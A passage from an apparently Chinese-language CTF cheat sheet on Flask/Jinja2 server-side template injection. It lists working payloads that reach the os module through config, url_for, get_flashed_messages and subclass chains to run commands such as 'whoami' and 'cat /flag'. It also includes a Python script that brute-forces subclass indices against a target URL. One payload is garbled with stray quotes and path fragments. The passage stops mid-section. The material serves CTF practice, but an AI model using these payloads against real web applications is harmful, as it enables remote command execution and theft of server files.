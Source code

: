 

### 3.os

#### 通过config，调用os

```php
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```

#### 通过url_for,调用os

```php
{{url_for.__globals__.os.popen('cat /flag').read()}}
```

#### 通过get_flashed_messages

返回之前在Flask中通过 flash() 传入的闪现信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用 get_flashed_messages() 方法取出(闪现信息只能取出一次，取出后闪现信息会被清空)。

```php
{{get_flashed_messages.__globals__.os.popen('cat /flag').read()}}
```

#### 在已经加载os模块的子类中直接调用os模块

```php
{{"".__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['os'].popen('cat /flag').read()}}
```

```
{{“”.__class__.__base__.__subclasses__()[117].__init__.__globals__[‘builtins’][‘eval’](./././././././././././"__import__.(‘os’).popen(‘ls’).read()")}} 
```

查找os模块脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'os.py' in str(response.content):
                print(i)
    except:
        pass
```



#### 可以加载第三方库，使用load_module加载os

_frozen_importlib.BuiltinImporter查找脚本
